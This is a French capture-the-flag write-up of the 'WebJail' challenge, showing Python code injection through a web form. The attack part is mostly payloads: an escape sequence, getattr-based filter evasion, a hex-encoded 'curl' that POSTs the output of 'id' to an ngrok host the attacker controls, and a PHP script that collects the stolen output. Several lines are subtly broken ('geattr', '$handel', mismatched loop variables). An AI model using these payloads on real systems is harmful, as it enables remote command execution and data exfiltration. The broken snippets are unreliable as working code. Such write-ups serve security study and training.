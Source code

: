 # WebJail

**Introduction**

- Le challenge nous fournit une page qui nous offre la possibilité d'exécuter des commandes via un formulaire.
- Note, les données de formulaire sont représentées de la manière suivante: ``command=rand&execute=Execute``
<br/>

![image](https://user-images.githubusercontent.com/74382279/157317880-896d7863-c7bd-4384-8bc6-b6ae7b3081a3.png)

J'essaye d'envoyer une commande Python: ``print(1)``, mais aucun résultat. Je suppose donc qu'on doit jouer avec la requête pour trouver le bon point d'entrée.<br/>
Pour ce faire je teste plusieurs techniques d'escape, quand finalement j'obtiens un résultat différent. La commande suivante: ``);print(1)#``

![image](https://user-images.githubusercontent.com/74382279/157317785-2baf2def-ea0a-48e6-9e94-1079e55cc2a7.png)

L'idée est d'importer une lib (os) pour exécuter des commandes Bash. Donc je tente d'importer la lib ``os`` pour exécuter ``id``: ``);import os;os.popen('id').read()#``.
Malheur, j'obtiens la réponse ``Blocked``. Je pars du principe que le chall contient un filtre qui match plusieurs fonctions Python.
<br/>

![image](https://user-images.githubusercontent.com/74382279/157318532-29ad4480-d328-4db3-afcd-5042f5be7e0e.png)

Je vais devoir builtin des fontions à partir de la lib ``__builtins__``.
La méthode ``getattr()`` renvoie la valeur de l'attribut nommé d'un objet. S'il n'est pas trouvé, il renvoie la valeur par défaut fournie à la fonction.
``);geattr(__builtins__,'__imp''ort__')('o''s').popen('id')#``, par défaut j'utilise une méthode de concaténation pour éviter de faire trigger la commande par le filtre.
N'oublions pas que la méthode ``read()`` n'est pas acceptée. Dans ce contexte on est supposé d'envoyer la requête en stdout vers un serveur web qu'on hébergera localement pour récupérer les données ``POST``. Tout ça ``OOB`` (Out of band). Les données ``OOB`` sont transférées via un flux indépendant du flux de données principal dans la bande.
J'utilise Wampserv comme hébergeur local. First of all je script la fonction suivante en ``PHP``:

```php
<?php

if(isset($_POST["data"]) && !empty($_POST["data"])) {
  $handle = fopen("data.txt", "a+");
  fwrite($handel, $_POST["data"] . "\n");
  fclose($handle);
}

echo file_get_contents("data.txt");

?>
```

J'héberge le fichier ``PHP`` dans le dossier ``tmp``. Comme tunnel j'utilise ``ngrok``: ``ngrok http 80``.
J'ai maintenant mon lien, que je peux exploiter pour recept les données.
Je reviens à la base, mais cette fois-ci en utilisant ``curl`` pour renvoyer une requête POST: ``);geattr(__builtins__,'__imp''ort__')('o''s').popen('curl\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
J'obtiens ``Blocked``, le filtre a donc trigger une partie de la commande. Ayant la flemme de chercher une alternative (``wget triggered``). Je teste plusieurs techniques de bypass: ``'CURL'.lower()`` => ``Blocked``. Je tente une méthode de chiffrement pour déchiffrer dynamiquement et exécuter ``curl``.
```py
>>> ''.join([str(hex(ord(s)))[2:4] for s in 'curl'])
'6375726c'
>> ''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])
'curl'
```
Vous avez dû remarquer, j'ai réécrit la fonction ``hex()`` pour éviter une autre fois le filtre. Comme requête finale j'obtiens:
``);geattr(__builtins__,'__imp''ort__')('o''s').popen(''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])+'\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
Le serveur me renvoit bien la réponse:
![image](https://user-images.githubusercontent.com/74382279/157323588-d2b559b5-7894-43c3-8a14-2c9bd8b79e00.png)


